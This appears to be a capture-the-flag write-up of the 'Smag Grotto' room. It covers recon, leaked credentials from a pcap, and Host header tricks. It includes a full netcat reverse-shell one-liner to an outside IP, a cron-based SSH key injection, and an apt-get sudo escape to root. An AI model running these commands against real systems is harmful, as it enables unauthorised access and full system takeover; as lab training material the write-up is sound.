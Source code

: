 # Smag Grotto

The hint for this room is Wireshark, which is a strong hint. Ultimately the room was fairly straight forward.

1. recon revealed 80 and 22
2. on 80 there was a holding page. I ran a dirb, which revealed /mail. on their was a pcap that could be downloaded
3. the pcap showed a /login page and credentials for it, but also revealed the host should be development.smag.thm (browsing their normally would not show the site)
4. using burp to alter the host in repeater, I confirmed the page was there. with burp match and replace, I was able to auto-update my host header (no need for a hosts entry or anything)
5. the login page led to an admin page, with the ability to execute commands but without the response being printed (so ls or id returned nothing)
6. I sent `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.51.210 4444 >/tmp/f` to catch a reverse shell as www-data
7. naving around, couldn't see anything obvious. ended up running linpeas, which showed me the crontab (could have just done `cat /etc/crontab`):

    `*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys`
    
8. the backup file was writable. I added my pub key to the file, and then was able to ssh in as jake
9. sudo -l revealed apt-get was runnable as sudo. from gtfo-bins I used `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` to get a root shell

Easy, but fun. Haven't done a boot to root in a few weeks.
